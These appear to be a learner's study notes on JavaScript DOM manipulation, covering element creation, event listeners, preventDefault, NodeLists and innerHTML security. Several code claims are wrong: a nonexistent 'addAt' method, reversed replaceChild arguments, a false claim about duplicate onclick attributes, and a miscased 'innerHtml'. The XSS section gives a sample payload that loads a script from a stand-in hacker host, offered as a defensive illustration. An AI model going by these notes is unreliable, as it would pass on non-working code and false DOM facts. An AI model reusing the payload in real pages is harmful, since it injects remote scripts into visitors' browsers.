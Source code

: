# DOM manipulation

## How can you use JavaScript to create an HTML element and then add it to your webpage?

To create an HTML elelment in JS we can use the function `Document.createElement()`

    var button = document.createElement('BUTTON');

and to create a Text in JS we use the function `Document.createTextNode()`

    var text = document.createTextNode("CLICK ME");

To append a text to an element in JS we use the function `appendChild()`

	button.appendChild(text);

To replace an element in JS

 - `target.replaceWith(newElement);` (ES5+)
 - `target.parentNode.replaceChild(target, newElement)`

## `onClick()` vs `handler`

Using `addEventListener` allows us to add unlimited events.
	
    <button id="btnTalker" onclick="say('Hi from dom\n')" onclick="say('Hi from dom,, again\n')"></button>

> `Hi from dom,, again`

	getElementById('btnTalker').addEventListener('click', function() {say('Hi from js\n')});
	getElementById('btnTalker').addEventListener('click', function() {say('Hi from js,, again\n')});

> `Hi from js`  
> `Hi from js,, again`

## How would you add a `<li>` element to the start of a `<ul>`?

	ulElement.childNodes.addAt(0, liElement);

# What is a JavaScript Event?
HTML events are **things** that happen to HTML elements.  
When JavaScript is used in HTML pages, JavaScript can **react** on these events.

An HTML event can be something the browser does, or something a user does.

Some examples of HTML events:

 - An HTML web page has finished loading.
 - An HTML input field was changed.
 - An HTML button was clicked.

## What does `event.preventDefault()` do and why might you use it?

Some HTML elements has built-in actions

 - `<form>` reloads the page when `sumbit` action is fired.
 - `<a>` navigates to a link when `click` action is fired.

`event.preventDefault()` disables the built-in actions.

## What is a NodeList? How is it different from an Array?

A NodeList is a collection of document nodes.

`NodeList`s are live lists, meaning that if elements are removed or added to the DOM, the list updates automatically.

	var nodeList = document.getElementsByClassName('myClassName'); //returns a nodeList
	var arr = [];
	for(let i = 0; i<nodeList.length;i++)
		arr.push(nodeList[i]);                                     //returns an array
	nodeList[0].innerHtml = '<b>This is changes</b>';              //Changes DOM
	arr[0].innerHtml = '<b>This is changes</b>';                   //Doesn't affect DOM

## Security concerns around `Element.innerHTML`. What to use instead?

Using `innerHTML` may leed to `Cross-site scripting (XSS)`.

Consider the following input of an `innerHTML` statement is a comment in your online blog:

    let x = document.createElement('script');
    x.src = 'http://hacker-website.com/malicious-script.js';
    document.childNodes.addAt(0, src);
    alert('you are hacked');

This may lead to run harmful scripts on your device.

### How to avoid?

You can use `innerText` instead, or you can use

    content = content.replace(/</g, "&lt;").replace(/>/g, "&gt;");
    el.innerHTML = content;
